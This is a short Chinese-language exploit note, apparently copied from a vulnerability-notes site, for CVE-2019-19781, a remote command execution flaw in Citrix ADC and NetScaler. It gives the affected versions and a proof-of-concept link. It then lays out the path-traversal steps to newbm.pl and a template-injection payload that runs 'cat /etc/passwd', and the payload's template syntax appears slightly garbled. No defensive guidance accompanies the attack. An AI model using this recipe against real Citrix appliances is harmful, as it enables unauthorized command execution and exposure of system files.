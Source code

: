 # （CVE-2019-19781）Citrix ADC&NetScaler 远程命令执行漏洞

> 原文：[http://book.iwonder.run/0day/Citrix NetScaler/CVE-2019-19781.html](http://book.iwonder.run/0day/Citrix NetScaler/CVE-2019-19781.html)

## 一、漏洞简介

## 二、漏洞影响

13.x,12.1,12.0,11.1,10.5

## 三、复现过程

[https://github.com/ianxtianxt/CVE-2019-19781](https://github.com/ianxtianxt/CVE-2019-19781)

### 0x01

upload_xml (/vpn/../vpns/portal/scripts/newbm.pl)

### 0x02

Execute Command (/vpn/../vpns/portal/jas502n.xml)

### Payload:

```
url=http://example.com&title=c&desc=[% http://template.new('BLOCK' = 'print `cat /etc/passwd`') %] 
```

